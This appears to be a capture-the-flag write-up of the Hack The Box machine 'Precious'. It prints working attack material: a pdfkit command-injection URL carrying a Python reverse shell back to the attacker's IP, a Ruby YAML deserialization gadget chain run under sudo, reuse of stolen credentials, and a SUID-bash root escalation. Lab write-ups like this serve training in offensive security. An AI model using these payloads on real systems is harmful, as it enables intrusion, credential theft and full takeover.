 # HTB - Precious

For start, i'll run nmap scan on all ports of the machine:
```bash
nmap 10.10.11.189 -p-
```
I found that ports 22 (ssh) and 80 (http) are open.
I will run another nmap scan for deeper look on this ports:
```bash
nmap -A 10.10.11.189 -p 22, 80
```

![image](https://user-images.githubusercontent.com/114166939/225315053-fbb7090c-6dac-4930-a86b-e5dd9dfca859.png)

It seems that there is nothing interesting about the ssh, but there is a website on the domain "http://precious.htb/" which works on nginx 1.18.0.

Now, before i'll try to open the website page, i'll add the domain to the /etc/hosts file.
```bash
nano /etc/hosts
```
![image](https://user-images.githubusercontent.com/114166939/225313538-ccb7e436-9d80-47cf-8873-baf4032e4875.png)

Now the website appears!

![image](https://user-images.githubusercontent.com/114166939/225313809-d39cc651-8fb8-43e8-ba52-4e2a4b3cc801.png)

The edit text does'nt getting any remote url, so i'll try a local one.

I'll open an python3 web server on my machine.
```bash
python3 -m http.server
```
And now I can write in the edit box at the web page the following url: 
"http://[MY-IP]:8000"

I got a screen-shot of my python3 server as a PDF file.

![image](https://user-images.githubusercontent.com/114166939/225316684-a2b9fc4d-b9cb-41e8-bbc1-8121afb38f6a.png)

I will save this screen-shot as a file on my machine and now i'll try to analyze it with exiftool:
```bash
exiftool 68ci7ek2mcv3lsdmyup77rgd2gbv1e3d.pdf 
```

![image](https://user-images.githubusercontent.com/114166939/225317837-a4bbd9a8-b25f-4836-9c7c-d0ed7f6c8f1e.png)

The creator of this file called "pdfkit v0.8.6", that's the service the server use to make the pdf files.

There is a known command injection exploit on this service - i'll use an exploit from this website: https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

![image](https://user-images.githubusercontent.com/114166939/225319623-001804a0-bbe6-4673-8018-1baf4dd043e2.png)

First, i'll try to force the website a 5 seconds delay, also, I will use the python3 server again:
```bash
http://[MY-IP]:8000/?name=#{'%20`sleep 5`'}.to_pdf 
```
It works! now, I can change the sleep command for another command to get a reverse-shell on the machine:

Before i'll try to modify the injection command, i'll open netcat listener with the following line:
```bash
nc -lnvp 4567
```
Now, the new injection will change from sleep command to python3 ,url encoded, reverse shell command:
```bash
http://[MY-IP]:8000/?name=#{'%20`python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("[MY-IP]",4567));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'`'}.to_pdf
```

![image](https://user-images.githubusercontent.com/114166939/225328174-91a1b7dd-fdfa-4c25-b14e-1d91c8b6189c.png)

First, i'll search for some information on current user:

![image](https://user-images.githubusercontent.com/114166939/225333012-81439138-679f-4b18-b65e-10a8ad6b56b8.png)

![image](https://user-images.githubusercontent.com/114166939/225333607-a5d1aeb9-b480-4e58-8972-0f24571cba3c.png)

Also. i'll try find out which users there are on the machine:

![image](https://user-images.githubusercontent.com/114166939/225333916-049f591e-7408-442e-b437-ececc76fe188.png)

The flag is at henry's home directory and as the current user, ruby, I do'nt have access:

![image](https://user-images.githubusercontent.com/114166939/225334484-de30199a-6b96-405b-aa55-1071a5c3ee4f.png)

On ruby's home directory there is a hidden suspicious direcory called ".bundle", in it I found a file called "config".

The content of this file is henry's credentials!

![image](https://user-images.githubusercontent.com/114166939/225337296-47f43372-f10d-469d-a889-650f974dfc83.png)

I'll use this credentials to connect henry via ssh:
```bash
ssh henry@10.10.11.189
```
Success!

![image](https://user-images.githubusercontent.com/114166939/225338482-1ceadbc3-221c-4d04-9ff1-d39ad31a96d7.png)

From henry's user I can print user.txt and get the flag:

![image](https://user-images.githubusercontent.com/114166939/225341738-a71c81b8-7ad0-4b86-b35c-4d19bcbf178b.png)

Now im going to escalate the privileges from henry to root!
First i'll run a "sudo -l" command:

![image](https://user-images.githubusercontent.com/114166939/225344459-9825a004-cb6a-420c-aee6-3a0d4de09550.png)

Let's check "/opt/update_dependencies.rb" file:

![image](https://user-images.githubusercontent.com/114166939/225345307-a1620b31-9fbf-4186-8df7-0d4c3a7ce3da.png)

![image](https://user-images.githubusercontent.com/114166939/225349125-5ff2901d-2d49-405e-9654-436a15f06c05.png)

In the code I can see that it use a function called "YAML.load()" and it loads a file called dependencies.yml.
After searching online, I found this website - https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

In this website there is a yml code for bash command injection:
I'll change the "git_set:" option to test if it works and save it as "dependencies.yml" in henry's home directory:
(Any command running from this file will run as root permissions)
```yml
---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: whoami
          method_id: :resolve 
```

And run:
```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

It works!

![image](https://user-images.githubusercontent.com/114166939/225352225-0d9b5b75-af30-43a6-84c3-ad6e1f2ff8e8.png)

Instead of "whoami" command i'll change the command for this:
```bash
chmod +s /bin/bash
```

So on "/bin/bash" will be SUID:
```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

![image](https://user-images.githubusercontent.com/114166939/225358387-20e3c0ea-a5ac-45b9-9fb0-25592872501e.png)

Now all that's left to do is running the command:
```bash
/bin/bash -p
```

![image](https://user-images.githubusercontent.com/114166939/225359267-b004b58a-c1cf-4974-b7f4-a90b55de79c4.png)

![image](https://user-images.githubusercontent.com/114166939/225359919-3ea38c37-2aaf-4903-b7c7-20d25e89ffd0.png)

